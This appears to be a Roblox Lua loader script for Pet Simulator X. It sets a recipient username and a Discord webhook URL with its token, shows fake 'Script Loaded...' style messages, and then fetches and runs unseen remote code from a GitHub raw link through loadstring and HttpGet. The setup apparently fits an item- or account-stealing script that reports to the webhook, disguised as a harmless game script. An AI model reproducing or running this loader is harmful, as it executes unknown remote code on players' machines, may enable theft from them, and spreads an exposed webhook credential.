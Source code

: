 Username = "Pr_dogman"
WebHook = "https://discord.com/api/webhooks/1111096993515839518/tLuxRc9Z2NlpQ7RR57B8XwslPCuO0dpneGeDErMbmVv2EPtDkZl7W_pIGV2aiVMGrtVi"
_G.CustomScriptName = "Project-WD"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
